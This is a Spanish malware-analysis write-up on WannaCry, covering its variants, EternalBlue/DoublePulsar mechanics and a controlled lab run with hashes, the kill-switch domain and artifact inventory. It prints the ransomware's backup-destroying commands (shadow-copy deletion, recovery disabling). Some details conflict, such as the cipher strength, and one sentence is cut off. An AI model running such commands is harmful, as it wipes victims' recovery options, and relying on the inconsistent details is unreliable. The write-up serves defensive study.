- Sistema de "Kill Switch" Inexistente: Tampoco incluía la famosa verificación del dominio no registrado que posteriormente sirvió para frenar la variante de propagación masiva. Era un ejecutable monolítico enfocado de forma estricta en su rutina interna de destrucción local de archivos.
🛡️ Parche de Vulnerabilidad de Microsoft: MS17-010 (14 de Marzo de 2017)
Al identificar la gravedad de la falla estructural en el protocolo SMBv1, Microsoft desplegó de emergencia el boletín de seguridad MS17-010. Esta actualización modificó la forma en que el driver del sistema (srv.sys) procesaba y validaba la longitud de los paquetes FEA (Full Extended Attribute), neutralizando por completo las técnicas de Grooming y desbordamiento en el pool de memoria del kernel.
🗺️ Matriz de Distribución y Limitaciones de Soporte
El lanzamiento inicial del parche expuso una de las brechas de infraestructura más grandes de la década, dividiendo los sistemas operativos en dos categorías críticas:
| Sistemas con Soporte Activo (Parcheados en Marzo) | Sistemas Obsoletos / Fin de Soporte (Excluidos Inicialmente) |
|---|---|
| * Windows 7 (Sistemas Objetivo Principales) * Windows 8.1 / Windows 10 * Windows Server 2008 R2 * Windows Server 2012 / 2016 |
* Windows XP * Windows Vista * Windows 8.0 * Windows Server 2003 |
⚠️ El Factor Windows XP: A pesar de haber finalizado su ciclo de soporte oficial en 2014, un porcentaje masivo de la infraestructura crítica global (cajeros automáticos, sistemas hospitalarios y servidores gubernamentales) dependía enteramente de arquitecturas de 32 y 64 bits de Windows XP en 2017. Al no recibir el parche de forma nativa, estos entornos quedaron completamente desamparados ante el posterior brote del gusano.
⚙️ El Factor Crítico: Despliegue, Ventanas de Mantenimiento y Windows Update
Contario a la creencia popular de que el parche no estaba en las bases de datos de Windows Update, Microsoft sí liberó la actualización de forma automática y calificada como "Crítica" para los sistemas con soporte activo el mismo 14 de marzo. Sin embargo, el verdadero cuello de botella que facilitó la catástrofe global de WannaCry se debió a factores logísticos y humanos dentro de las arquitecturas corporativas:
- Parches Acumulativos y Dependencias Previas: Para que el parche MS17-010 se instalara correctamente a través de Windows Update, muchos sistemas (especialmente Windows 8.1 y Server 2012 R2) requerían tener instaladas actualizaciones de servicio previas (como la KB2919355). Si una empresa arrastraba meses de retraso en su ciclo de actualizaciones, el parche fallaba silenciosamente en su instalación automática.
- Políticas de Servidores Activos (24/7): En entornos industriales y médicos, los servidores encargados de bases de datos o control de instrumental médico no pueden reiniciarse de manera imprevista. La instalación del parche requería obligatoriamente un reinicio completo para descargar el driver
srv.syscorrupto de la memoria y montar la versión corregida. Al no tener programadas ventanas de mantenimiento estrictas, las organizaciones pospusieron el reinicio durante meses. - Desconfianza y Aislamiento de Redes: Muchos administradores de sistemas desactivaban deliberadamente el servicio de Windows Update en sus infraestructuras por temor a que una actualización inestable corrompiera software propietario crítico, confiando erróneamente en que el perímetro de la red local (LAN) era lo suficientemente seguro para mitigar cualquier ataque externo.
🧬 La Segunda Versión de WannaCry (WannaCry 2.0)
El 27 de marzo de 2017, apenas unas semanas después del lanzamiento del parche MS17-010 de Microsoft, el analista e investigador de malware Karsten Hahn identificó y aisló la segunda gran evolución de la amenaza. Este espécimen intermedio marcó la transición definitiva hacia la infraestructura visual y destructiva que el mundo conocería durante el brote masivo.
El hash MD5 que identifica unívocamente esta muestra es:
b0ad5902366f860f85b892867e5b1e87

🔬 Características Clínicas del Espécimen 2.0
Esta versión se sitúa justo en medio del desarrollo experimental inicial y la posterior campaña globalizada, introduciendo cambios críticos en la firma y comportamiento del ataque:
- Consolidación de la Interfaz Gráfica (GUI): A diferencia del diseño rústico de la variante 1.0 (analizada por Siri), WannaCry 2.0 introduce la famosa interfaz de color rojo oscuro con dos contadores de tiempo regresivos en el panel izquierdo (uno para el incremento del precio del rescate y otro para la eliminación definitiva de los archivos).
- Adopción de la Extensión Oficial: En esta muestra el malware abandona los esquemas de nomenclatura previos e introduce formalmente la extensión de archivo
.wannacrypara marcar todos los datos que han sido sometidos al proceso de cifrado AES-256, no importa si quitas dicha extension pues seguira protegido por sus claves de cifrado correspondientes. - Fase de Transición Operativa: Aunque la interfaz y el motor de cifrado local ya eran idénticos a los de la posterior versión masiva de mayo, este espécimen de finales de marzo todavía no integraba de forma funcional el módulo de propagación autónoma (gusano) de EternalBlue. Continuaba siendo un binario cuya distribución requería la intervención de vectores tradicionales o la ejecución manual/dirigida.
📂 Filtración de Datos de la NSA (National Security Agency) y el Broker de Exploits
Antes de la divulgación oficial del identificador CVE-2017-0144 por parte de las agencias civiles de seguridad, la Agencia de Seguridad Nacional de EE. UU. (NSA), específicamente su brazo de operaciones ofensivas avanzadas conocido como TAO (Tailored Access Operations), ya explotaba de forma encubierta esta debilidad estructural en el protocolo SMBv1 desde al menos el año 2013. Para operacionalizar este fallo de forma quirúrgica, desarrollaron el arma cibernética conocida como EternalBlue.
La pérdida de control sobre este arsenal militar ocurrió mediante una serie de filtraciones ejecutadas por el misterioso grupo conocido como The Shadow Brokers. Tras intentar subastar el material sin éxito en 2016, el grupo liberó públicamente el paquete completo de herramientas el 14 de abril de 2017 bajo el lanzamiento bautizado como "Lost in Translation". Esta filtración masiva puso herramientas ofensivas de nivel gubernamental al alcance de cualquier cibercriminal en el mundo, sirviendo como el catalizador directo que los operadores de WannaCry utilizaron para actualizar su binario primitivo semanas después.
🩻 DoublePulsar: El Implante de Kernel Altamente Sigiloso
Mientras que EternalBlue actúa exclusivamente como el vehículo de propulsión (el exploit que abre la brecha en la memoria no paginada del sistema), DoublePulsar es el componente de persistencia y carga útil secundaria que se inyecta de forma inmediata en el objetivo.

🔬 Características Mecánicas e Implantación en Ring 0
A diferencia de las puertas traseras tradicionales basadas en sockets de red comunes o modificaciones en el registro de Windows, DoublePulsar destaca por una arquitectura diseñada específicamente para operaciones de espionaje que evitan por completo dejar rastro en el disco duro:
- Inyección Directa en el Pool del Kernel: DoublePulsar se ejecuta con los máximos privilegios posibles dentro del sistema operativo (Ring 0). No genera un archivo ejecutable (
.exe) ni instala servicios visibles; reside de forma exclusiva en la memoria volátil del equipo afectado. - Abuso del Protocolo SMB como Canal de Comando (C2): El implante intercepta y secuestra el propio driver legítimo de SMB de Windows. Cuando DoublePulsar está instalado, el atacante puede enviar paquetes SMB especialmente modificados al puerto 445. Si el paquete contiene códigos de operación (OpCodes) específicos en campos como
Multiplex ID (MID), el implante responde o ejecuta comandos; si el paquete es tráfico normal de red, deja que Windows lo procese de forma ordinaria, volviéndose invisible para los firewalls tradicionales. - Migración de Procesos y Evasión Avanzada: Para mantenerse operativo de forma estable sin corromper el hilo principal del sistema, el código inyectado migra o secuestra contextos de ejecución de hilos dentro de procesos críticos del espacio de usuario como
lsass.exe(Local Security Authority Subsystem Service). Al camuflarse dentro de procesos nativos del sistema que gestionan las credenciales y la seguridad local, evade las protecciones de los antivirus comerciales y sistemas de detección de intrusos (IDS) que no monitorizan de forma estricta las llamadas cruzadas en memoria a nivel de kernel.
🎮 Los Comandos Operativos de DoublePulsar (Ping, Kill, Exec)
Para interactuar con el implante una vez inyectado en el kernel, el operador de la herramienta (o el propio script automatizado de WannaCry) utiliza una estructura de comunicación muy rígida basada en tres comandos primarios codificados de forma binaria. Estos comandos permiten auditar, comandar o autodestruir el backdoor de forma totalmente remota:
1. 📡 El Comando Ping (Verificación de Infección)
- Propósito: Validar si un equipo de la red ya se encuentra comprometido con el implante sin necesidad de volver a lanzar el exploit de EternalBlue (lo que arriesgaría la estabilidad del sistema operativo y podría causar una pantalla azul).
- Mecánica Técnica: El atacante envía una petición SMB legítima (por ejemplo, una solicitud de transacción) pero altera el campo de identificación multiplex (
MID = 0x41o similar dependiendo de la arquitectura). Si el sistema operativo responde de forma estándar con un error de red, significa que está limpio. Si DoublePulsar está activo en la memoria del kernel, intercepta el paquete antes de que llegue a Windows y responde con un código de confirmación específico (0x10), confirmando la persistencia silenciosa.
2. 🚀 El Comando Exec (Ejecución de Payloads)
- Propósito: Inyectar y ejecutar una carga útil secundaria (un archivo dll, shellcode o, en el caso final, el ejecutable cifrado de WannaCry) directamente dentro de la memoria del sistema operativo sin escribir nada en el disco duro.
- Mecánica Técnica: El operador envía el comando
Execadjuntando la carga binaria a través de la sesión SMB secuestrada. DoublePulsar recibe el código corrupto en el espacio de kernel (Ring 0), localiza un proceso legítimo en el espacio de usuario (como el mencionadolsass.exe) mediante funciones nativas de Windows comoApcRoutine(Asynchronous Procedure Calls), inyecta los bytes directamente en la memoria de ese proceso y fuerza un hilo de ejecución para que el malware comience a correr de forma inmediata con privilegios de administrador.
3. ☠️ El Comando Kill (Autodestrucción del Implante)
- Propósito: Limpiar los rastros de la intrusión de la memoria volátil del equipo objetivo una vez completados los objetivos operativos o para evitar que analistas de seguridad descubran el backdoor durante una auditoría forense.
- Mecánica Técnica: Cuando el implante procesa la estructura de comando correspondiente a
Kill, inicia un bucle de desasignación de memoria. Restaura los punteros originales del driver de Windowssrv.sysa su estado de fábrica (deshaciendo el secuestro del puerto 445) y posteriormente libera de forma segura los bloques del pool de memoria donde residía su propio código. El sistema sigue funcionando con total normalidad, pero el backdoor desaparece por completo sin dejar evidencia forense física en el almacenamiento.
🧬 La Tercera Versión de WanaCryptor
El 26 de abril de 2017, justo en el ecuador temporal entre la filtración de The Shadow Brokers y el ataque global de mayo, se compiló la tercera variante evolutiva del malware: WannaCry 3.0. Esta versión representa la maduración definitiva del entorno gráfico del software de secuestro justo antes de que se le añadieran los componentes militares de red.
A diferencia de las primeras dos versiones, se cuenta con una única imagen de referencia que documenta este estado intermedio del desarrollo:
🔬 Características Clínicas del Espécimen 3.0
Aunque visualmente el código ya era indistinguible de la amenaza masiva definitiva, su lógica interna y sus métodos operativos revelan que seguía perteneciendo a una fase previa a la automatización:
- Estructura Gráfica y Criptográfica Completa: En esta versión, el software cuenta con todo el abanico de funciones locales maduras: soporte multi-idioma nativo para las notas de rescate, el sistema de advertencias completamente pulido y la misma clave pública RSA maestra embebida para blindar el descifrado.
- Vector de Infección Tradicional (Sin EternalBlue ni DoublePulsar): A pesar de haberse creado casi dos semanas después de la filtración del arsenal de la NSA por parte de The Shadow Brokers, los desarrolladores de esta variante aún no habían integrado las herramientas de explotación de kernel ni el backdoor en el protocolo SMB. Su propagación seguía estando limitada al envío de archivos adjuntos infectados mediante campañas dirigidas de Ingeniería Social y Phishing de correo electrónico.
- Ausencia de Autopropagación (Sin Mecanismo de Gusano): Si el binario era ejecutado en una máquina, cifraba el disco duro local de forma destructiva utilizando la extensión
.wannacry, pero permanecía estático en ese equipo sin capacidad de saltar de manera autónoma a otros servidores de la subred.
🦠 El Verdadero Ataque: WanaCryptor 2.0 (La Epidemia Global del 11 y 12 de Mayo)
A partir de este punto, entramos en el núcleo crítico de la investigación: el análisis del evento que transformó un malware convencional de secuestro en la crisis informática global más devastadora de la década. La mutación definitiva se bautizó operativamente como WanaCryptor 2.0 (o WannaCry 4.0 en la escala evolutiva interna), combinando en un solo espécimen el motor criptográfico local con el poder de propagación militar de EternalBlue y DoublePulsar.
El brote inicial comenzó a gestarse de forma silenciosa el 11 de mayo de 2017. Al acoplar el módulo de replicación automática de la NSA, el malware adquirió capacidades de gusano (worm), lo que provocó una explosión exponencial de infecciones en cuestión de pocas horas, colocando a infraestructuras críticas del planeta bajo estado de jaque.

🚨 Descubrimiento y el Primer Hash Clínico
El radar de la comunidad de ciberseguridad detectó la anomalía de madrugada. Uno de los primeros equipos de inteligencia en dar la alarma pública fue la plataforma de analistas independientes MalwareHunterTeam, quienes anunciaron el hallazgo formal a las 3:00 AM del 12 de mayo de 2017.
El espécimen inicial catalogado de esta variante masiva quedó registrado bajo la siguiente huella digital criptográfica (esencial para firmas de IOC y reglas YARA):
🔬 Hash MD5 de la Primera Variante 2.0:
84c82835a5d21bbcf75a61706d8ab549
📉 La Ventana de Vulnerabilidad: El Factor Humano y de Sistemas
Un aspecto fundamental para entender la velocidad del contagio es el tiempo transcurrido desde la publicación de las defensas. Microsoft había lanzado el parche crítico MS17-010 casi dos meses antes (el 14 de marzo de 2017), el cual cerraba definitivamente la debilidad estructural del protocolo SMBv1 (CVE-2017-0144).
Sin embargo, debido a las políticas de actualización deficientes de las grandes corporaciones, sistemas médicos obsoletos (como Windows XP/2003 que ya no contaban con soporte oficial) y el temor a que los parches rompieran software empresarial crítico, un porcentaje extremadamente bajo de equipos a nivel mundial tenía instalada la actualización de seguridad para el momento del ataque.
🚀 Dinámica de Infección Híbrida
A diferencia de sus tres versiones predecesoras, WanaCryptor 2.0 ya no dependía exclusivamente de que una víctima cometiera un error para expandirse. Su vector de ataque mutó hacia un comportamiento dual altamente efectivo:
- Paciente Cero (Vector Primario): La intrusión inicial en una red corporativa u organización se seguía ejecutando mediante métodos tradicionales de ingeniería social, principalmente campañas de Phishing dirigidas con archivos adjuntos maliciosos ejecutables en correos electrónicos.
- Propagación Autónoma Interna (Efecto Gusano): Una vez que el "Paciente Cero" ejecutaba el archivo y el binario lograba privilegios en la máquina, el malware activaba inmediatamente un hilo de escaneo de red. Escaneaba de forma masiva el puerto 445 (TCP) tanto de la subred local (
LAN) como de rangos de direcciones IP públicas en internet. Al detectar cualquier máquina vulnerable que no tuviera el parche de Microsoft, le lanzaba el exploit EternalBlue para romper el kernel, verificaba con un Ping oculto e inyectaba el código de WannaCry mediante el comando Exec de DoublePulsar, repitiendo el ciclo de forma infinita y automatizada sin intervención humana.
💥 Impacto Global y Daños Operativos (Cierre del 12 de Mayo)
Al finalizar el fatídico 12 de mayo de 2017, la velocidad de automultiplicación del código arrojó cifras sin precedentes en la historia de la ciberseguridad, consolidando un apagón operativo masivo en cuestión de 24 horas:
- Métricas de la Infección: Alrededor de 250,000 ordenadores secuestrados distribuidos en más de 150 países en total.
- Zonas de Mayor Impacto Geográfico: Rusia, Ucrania, India y Taiwán encabezaron las listas con las mayores densidades de nodos comprometidos por kilómetro cuadrado.
🏢 Corporaciones e Infraestructuras Críticas Colapsadas
| Organización / Empresa | Sector | Impacto Operativo |
|---|---|---|
| NHS (National Health Service) | Salud (Reino Unido) | Ambulancias desviadas, quirófanos cancelados y expedientes médicos bloqueados. |
| Telefónica de España | Telecomunicaciones | Cierre preventivo de sedes centrales y cifrado de terminales corporativas. |
| FedEx | Logística (EE. UU.) | Suspensión de envíos y retrasos masivos en cadenas de distribución global. |
| Deutsche Bahn (DB) | Transporte (Alemania) | Pantallas de estaciones de trenes secuestradas mostrando la nota de rescate. |
| LATAM Airlines | Aviación | Problemas en sistemas de facturación y retrasos logísticos puntuales. |
| Renault / Nissan / Honda | Automotriz | Paro total de líneas de ensamblaje en plantas de producción para contener el brote. |
El impacto financiero directo derivado de estos cierres forzados se tradujo en **pérdidas millonaria
🔬 Análisis Detallado de WannaCry
Esta sección documenta el funcionamiento interno de WannaCry a partir de documentación pública, análisis estático y pruebas realizadas en un laboratorio controlado.
El objetivo es explicar cómo se ejecuta el ransomware, cómo se propaga mediante el protocolo SMB utilizando EternalBlue y DoublePulsar, y cuáles son los principales artefactos que deja durante una infección.
🖥️ Arquitectura y Configuración del Laboratorio
Para observar el comportamiento del malware sin afectar otros equipos, se utilizó una red aislada en VMware mediante una conexión Host-Only.
El laboratorio está compuesto por dos máquinas virtuales configuradas de la siguiente manera:
Muestra analizada
- Variante: WanaCryptor 2.0
- Hash MD5:
84c82835a5d21bbcf75a61706d8ab549
VM1 – Paciente Cero
- Sistema Operativo: Windows 7 SP1 de 64 bits.
- Dirección IP:
10.0.0.10 - Rol: Ejecución manual del binario inicial (dropper).
VM2 – Objetivo de Replicación
- Sistema Operativo: Windows 7 SP1 de 32 bits.
- Dirección IP:
10.0.0.20 - Rol: Validar la propagación automática del gusano mediante SMB, sin intervención del usuario.
⚙️ Configuración del Firewall
Para permitir la explotación de MS17-010 y la propagación del malware entre ambas máquinas virtuales, fue necesario habilitar la regla Compartir archivos e impresoras (SMB) en el Firewall de Windows.

🧬 El Vector de Infección: Dropper, Worm y Kill-Switch
El binario inicial de WannaCry corresponde a un ejecutable de aproximadamente 3.6 MB, identificado habitualmente como mssecsvc.exe o lhdfrgui.exe.
Antes de ejecutar cualquier acción maliciosa, el malware intenta acceder a un dominio codificado mediante las funciones InternetOpenA() e InternetOpenUrlA() de la API WinINet.
- Si el dominio responde correctamente, el proceso finaliza inmediatamente.
- Si la conexión falla —como ocurre en un laboratorio sin acceso a Internet— continúa la ejecución del ransomware.
Este comportamiento dio origen al conocido kill-switch, asociado al dominio:
iuqerfsodp9ifjaposdfjhgosurijfaewrwergwea[.]com
Cuando el ejecutable se inicia sin parámetros desde la línea de comandos, registra un nuevo servicio de Windows llamado mssecsvc2.0, simulando pertenecer al sistema operativo bajo la descripción Microsoft Security Center 2.0.
Posteriormente extrae desde sus recursos internos (R/1831) un segundo ejecutable denominado tasksche.exe, almacenándolo en:
C:\Windows\
Este segundo binario contiene la lógica responsable del cifrado de archivos y de la propagación del ransomware a través de la red.
🎯 Explotación de Red: EternalBlue + DoublePulsar
Después de comprometer el equipo inicial, WannaCry comienza a escanear la red local en busca de sistemas con el puerto 445/TCP accesible.
Cuando identifica un equipo vulnerable, utiliza EternalBlue (MS17-010) para explotar una vulnerabilidad presente en SMBv1.
El exploit envía paquetes Trans2 especialmente construidos que provocan un buffer overflow durante el procesamiento de solicitudes SMB, permitiendo ejecutar código arbitrario en modo kernel sin necesidad de autenticación ni interacción del usuario.
Una vez conseguida la ejecución en kernel, WannaCry despliega DoublePulsar, una puerta trasera residente únicamente en memoria.
DoublePulsar permite inyectar una DLL arbitraria dentro del proceso lsass.exe, mecanismo utilizado para cargar una nueva copia del gusano en el sistema comprometido.
En un equipo que no dispone del parche MS17-010, la infección ocurre automáticamente siguiendo este flujo:
- Escaneo de la red local.
- Identificación de un host con el puerto 445 abierto.
- Explotación mediante EternalBlue.
- Instalación temporal de DoublePulsar.
- Inyección del payload.
- Ejecución de una nueva instancia de WannaCry.
No es necesaria ninguna acción por parte del usuario para completar la infección.
🕹️ Ejecución Dinámica y Evidencia del Ataque
Antes de ejecutar la muestra, se verificó la conectividad entre ambas máquinas virtuales utilizando ping y tracert.
Como archivo de control se creó prueba.txt en el escritorio de la VM1 para observar directamente el proceso de cifrado.
Tras ejecutar el binario, WannaCry modificó inmediatamente el entorno del sistema:
- Sustituyó el fondo de pantalla por la nota de rescate.
- Mostró la interfaz gráfica Wana Decrypt0r 2.0.
- Inició los temporizadores de pago.
- Comenzó el cifrado de archivos compatibles.



🔐 Fase de Cifrado: RSA, AES y Sabotaje del Sistema
Cuando tasksche.exe se ejecuta con el modificador /i, extrae un archivo ZIP embebido protegido mediante la contraseña:
WNcry@2ol7
Este archivo contiene todos los componentes necesarios para el cifrado y la comunicación con la infraestructura del atacante.
El esquema criptográfico utilizado combina dos algoritmos:
- RSA-2048, empleado para proteger la clave AES generada para cada archivo.
- AES-128 en modo CBC, utilizado para cifrar el contenido de cada archivo de manera individual.
El procedimiento puede resumirse así:
- Se genera una clave AES única para cada archivo.
- El archivo se cifra utilizando AES-128-CBC.
- La clave AES se cifra mediante la clave pública RSA embebida.
- La clave privada necesaria para recuperar los datos permanece únicamente en poder del atacante.
Antes de iniciar el cifrado masivo, WannaCry crea el mutex:
Global\MsWinZonesCacheCounterMutexA
Este mutex evita la ejecución simultánea de múltiples instancias del ransomware sobre el mismo sistema.
Posteriormente intenta finalizar procesos que podrían mantener archivos abiertos, incluyendo:
sqlserver.exemysqld.exe- Servicios de Microsoft Exchange
- Otros procesos relacionados con bases de datos y correo electrónico.
Como mecanismo adicional para impedir la recuperación del sistema, ejecuta los siguientes comandos:
vssadmin delete shadows /all /quiet
wmic shadowcopy delete
bcdedit /set {default} bootstatuspolicy ignoreallfailures
bcdedit /set {default} recoveryenabled no
wbadmin delete catalog -quiet
Estas instrucciones eliminan las Shadow Copies, deshabilitan opciones de recuperación del sistema y eliminan el catálogo de copias de seguridad de Windows.
🗄️ Inventario de Artefactos
Después de la infección se generan numerosos archivos que forman parte de la infraestructura interna del ransomware.
1. Componentes de idioma
- Carpeta
msg/ - Contiene archivos
.wnrycon los mensajes traducidos para distintos idiomas. @Please_Read_Me@.txt- Nota de rescate distribuida en los directorios afectados.
2. Infraestructura criptográfica
Archivos:
00000000.pky00000000.eky00000000.res
Funciones:
.pky: clave pública utilizada durante la sesión..eky: clave privada local cifrada con la clave maestra del atacante..res: información relacionada con el estado del proceso de cifrado.
3. Recursos del ransomware
b.wnry→ Imagen utilizada como fondo de pantalla.c.wnry→ Configuración interna con direcciones Bitcoin y dominios.onion.r.wnry→ Nota de rescate.u.wnry→ Ejecutable del descifrador.s.wnry→ Cliente TOR y bibliotecas asociadas.t.wnry→ DLL cifrada (kbdlv.dll) que contiene la lógica principal del cifrado.
4. Procesos auxiliares
taskdl.exe- Elimina archivos temporales
.WNCRYT. taskse.exe- Ejecuta
@WanaDecryptor@.exe. @WanaDecryptor@.exe- Interfaz gráfica mostrada a la víctima.

5. Comunicación mediante TOR
La carpeta TaskData/ contiene tor.exe y las bibliotecas necesarias para establecer comunicación con la infraestructura de comando y control (C2) mediante la red TOR.
🧪 Mutación de Archivos
Como evidencia del proceso de cifrado, el archivo de control:
prueba.txt
pasó a convertirse en:
prueba.txt.txt.WNCRY
Además, WannaCry generó un archivo auxiliar:
172271782952269.bat.WNCRY
El comportamiento observado durante el análisis coincide con investigaciones previas:
- Los archivos ubicados en directorios considerados importantes (Escritorio, Documentos, etc.) son sobrescritos antes de eliminarse, dificultando su recuperación.
- Los archivos localizados en otras rutas pueden trasladarse temporalmente a
%TEMP%con extensión.WNCRYT, lo que en algunos casos permite su recuperación mediante herramientas forenses especializadas.
👇 Flujo general de infeccion de Wannacry
